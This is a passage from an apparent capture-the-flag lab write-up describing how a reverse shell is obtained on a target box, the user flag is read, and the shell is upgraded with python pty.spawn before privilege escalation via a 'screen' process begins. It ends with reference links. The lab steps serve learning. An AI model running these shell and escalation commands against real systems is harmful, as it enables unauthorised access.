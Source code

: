 ```bash

# Execute reverse shell executable
run

# You should get your reverse-shell
```
POUM!<BR>
Now we got a shell as *user*.
```bash
whoami
user
```

We can capture the user flag.
```bash
cd
cat user.txt
```


### Privilege Escalation

#### Upgrading the shell
We can upgrade the shell:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

#### Identifiying missconfiguration
In the process that we list above, we also can see a [screen][screen man] process.




[screen man]: https://linux.die.net/man/1/screen

[Bash script dt]: http://google.es
[Bash script list]: http://google.es

[HackTricks guide]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress
[HackTricks GdbServer]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver


[wordpress5.8.1vuln]: https://wpscan.com/wordpress/581

[port1337]: https://www.speedguide.net/port.php?port=1337

